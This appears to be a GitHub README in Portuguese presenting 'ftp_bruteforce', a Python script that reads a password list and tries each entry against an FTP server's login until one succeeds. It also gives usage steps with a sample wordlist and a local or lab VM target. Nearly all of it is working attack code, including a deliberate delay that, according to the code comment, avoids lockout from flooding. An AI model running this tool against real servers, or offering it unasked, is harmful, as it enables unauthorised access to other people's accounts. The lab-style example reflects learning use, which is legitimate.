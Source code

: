 # ftp_bruteforce
Bruteforce de FTP com Python

from ftplib import FTP
import time

def tentar_login(host, usuario, senha):
    try:
        ftp = FTP()
        ftp.connect(host, 21, timeout=5)
        ftp.login(usuario, senha)
        print(f"[✅] Sucesso: {usuario}:{senha}")
        ftp.quit()
        return True
    except:
        print(f"[❌] Falhou: {usuario}:{senha}")
        return False

def main():
    host = input("Host/IP do servidor FTP: ")
    usuario = input("Usuário: ")
    arquivo_senhas = input("Caminho do arquivo com senhas: ")

    try:
        with open(arquivo_senhas, 'r') as f:
            for linha in f:
                senha = linha.strip()
                if tentar_login(host, usuario, senha):
                    break  # Parar se encontrar a senha
                time.sleep(0.5)  # Evita bloqueio por flood
    except FileNotFoundError:
        print("[!] Arquivo de senhas não encontrado.")

if __name__ == "__main__":
    main()
-------------------------------------------------------------------------------------------------------------------------------
#exemplo de uso

 Exemplo de uso:
Crie um arquivo senhas.txt com senhas para testar:

pgsql
Copy
Edit
123456
admin
senha
ftp123
meusegredo
Execute o script:

bash
Copy
Edit
python bruteforce_ftp.py
Digite:

Host: 127.0.0.1 (ou o IP da VM com FTP ativo)

Usuário: ftpuser

Caminho do arquivo: senhas.txt
